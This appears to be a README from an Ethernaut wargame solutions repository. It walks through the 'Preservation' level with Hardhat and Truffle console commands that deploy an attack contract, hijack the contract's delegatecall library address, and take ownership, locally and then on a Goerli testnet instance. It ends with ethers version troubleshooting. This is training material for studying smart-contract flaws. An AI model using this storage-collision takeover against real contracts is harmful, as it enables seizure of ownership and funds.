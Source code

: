 # Preservation

[Preservation](https://ethernaut.openzeppelin.com/level/0x2754fA769d47ACdF1f6cDAa4B0A8Ca4eEba651eC)

Contract: <BR />
``0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220``


## Test Attack

```BASH
npx hardhat compile
npx hardhat console
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

LibCtrFactory = await ethers.getContractFactory("LibraryContract")
libctr = await LibCtrFactory.deploy()
libctr.address

PreFactory = await ethers.getContractFactory("Preservation")
pre = await PreFactory.deploy(libctr.address, libctr.address)

AttackFactory = await ethers.getContractFactory("Attack")
attack = await AttackFactory.deploy()

// Get initial Owner and library address
await pre.owner()
await pre.timeZone1Library()    
libctr.address

// Change library to attack contract and confirm change
await pre.setFirstTime(attack.address)
await pre.timeZone1Library()
attack.address
libctr.address

// Change owner to whatever we want...
await pre.owner()
await pre.setFirstTime(attack.address)
await pre.owner()
await pre.timeZone1Library()
attack.address
```

<BR />


## Live Attack

Instance Address: <BR />
``0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220``


Attack Contract Address: <BR />
``0xA45bcbb0CeB2f15434fb1F4675151FDa8786D9Ca``


```BASH
npx hardhat compile
npx hardhat console --network goerli
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

PreFactory = await ethers.getContractFactory("Preservation")
pre = await PreFactory.attach('0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220')

AttackFactory = await ethers.getContractFactory("Attack")
attack = await AttackFactory.deploy()

// Get initial Owner and library address
await pre.owner()
await pre.timeZone1Library()    

// Change library to attack contract and confirm change
await pre.setFirstTime(attack.address)
await pre.timeZone1Library()
attack.address

// Change owner to whatever we want...
// Failing with out-of-gas!
await pre.owner()
await pre.setFirstTime(accounts[0].address) // FAILED!
await pre.timeZone1Library()
await pre.owner()

accounts[0].address
```

<BR />

## Live Attack Try 2

Since the attack was failing out of gas, and because of the problems in Hardhat we simply switch to truffle (``13_Preservation_Truffle``) and complete the attack as follows:

```BASH
truffle console --network goerli
```

```JS
sender = accounts[5]

pre    = await Preservation.at("0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220")
attack = await Attack.at("0xA45bcbb0CeB2f15434fb1F4675151FDa8786D9Ca")

await pre.owner()
await pre.timeZone1Library()    
attack.address

await pre.setFirstTime(sender, {from: sender})
await pre.owner()
```

<BR />


## Others

When setting up Hardhat we ended up with a problem becuase of the Ethers version.
The problem was avoided by:

1. Delete node_modules
1. Copy over ``package.json`` and ``package-lock.json`` from ``11_GatekeeperTwo``
1. ``npm install``

Configuration that works:

```JS
// > ethers.version
// 'ethers/5.7.2'

LibCtrFactory = await ethers.getContractFactory("LibraryContract")
libctr = await LibCtrFactory.connect(accounts[0]).deploy()
libctr.address
```

Problematic configuration:

```JS
// > ethers.version
// '6.5.1'

LibCtrFactory = await ethers.getContractFactory("LibraryContract")
libctr = await LibCtrFactory.connect(accounts[0]).deploy()
libctr.target
```

<BR />
